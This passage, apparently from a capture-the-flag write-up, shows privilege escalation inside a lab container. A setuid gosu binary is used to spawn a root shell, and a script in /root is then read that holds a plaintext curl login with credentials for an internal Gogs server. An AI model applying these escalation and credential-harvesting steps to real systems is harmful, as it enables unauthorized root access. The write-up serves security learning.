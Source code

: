 Just running it, it clearly looks like a binary to run things as other users:

```

3713ea5e4353:/$ gosu
Usage: gosu user-spec command [args]
   ie: gosu tianon bash
       gosu nobody:root bash -c 'whoami && id'
       gosu 1000:1 id

gosu version: 1.10 (go1.7.1 on linux/amd64; gc)
     license: GPL-3 (full text at https://github.com/tianon/gosu)

```

I’ll give one of their examples a spin:

```

3713ea5e4353:/$ gosu nobody:root bash -c 'whoami && id'
nobody
uid=65534(nobody) gid=0(root)

```

I can run that to get a root shell:

```

3713ea5e4353:/$ gosu root:root bash
3713ea5e4353:/# id
uid=0(root) gid=0(root)

```

Note - that won’t work unless I have a full tty. I could initiate another reverser shell without a tty.

## Privesc: kaneki\_pub –> root

### Enumeration

Now that I’m root on gogs, I have access to files that will help me get to root on kaneki-pc. In `/root/`, I see two files:

```

3713ea5e4353:~# ls
aogiri-app.7z  session.sh

```

`session.sh` gives additional login credentials for kaneki to gogs:

```

3713ea5e4353:~# cat session.sh 
#!/bin/bash
while true
do
  sleep 300
  rm -rf /data/gogs/data/sessions
  sleep 2
  curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
done

```
